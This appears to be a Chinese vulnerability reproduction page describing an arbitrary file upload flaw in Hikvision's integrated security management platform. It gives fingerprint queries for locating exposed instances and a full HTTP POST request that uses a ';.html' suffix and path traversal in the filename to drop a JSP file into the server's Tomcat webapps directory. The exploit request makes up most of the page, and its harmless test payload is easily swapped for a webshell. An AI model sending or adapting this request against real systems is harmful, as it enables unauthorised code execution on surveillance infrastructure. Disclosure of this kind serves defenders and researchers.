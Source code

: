 # Hikvision 综合安防管理平台 files 任意文件上传漏洞

## 漏洞描述

Hikvision 综合安防管理平台 files 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件

## 漏洞影响

Hikvision 综合安防管理平台

## 网络测绘

```
app="Hikvision-综合安防管理平台"
```

```
web.title=="综合安防管理平台"
```

## 漏洞复现

登陆页面

![image-20220824134144287](images/202208241341481.png)

需要开放运行管理中心 (8001端口)

![image-20230828163622054](images/image-20230828163622054.png)

```
POST /center/api/files;.html HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54a

------WebKitFormBoundary9PggsiM755PLa54a
Content-Disposition: form-data; name="file"; filename="../../../../../../../../../../../opt/Hikvision/web/components/tomcat85linux64.1/webapps/eportal/new.jsp"
Content-Type: application/zip

<%out.print("test3");%>

------WebKitFormBoundary9PggsiM755PLa54a--
```

![image-20230828163639195](images/image-20230828163639195.png)
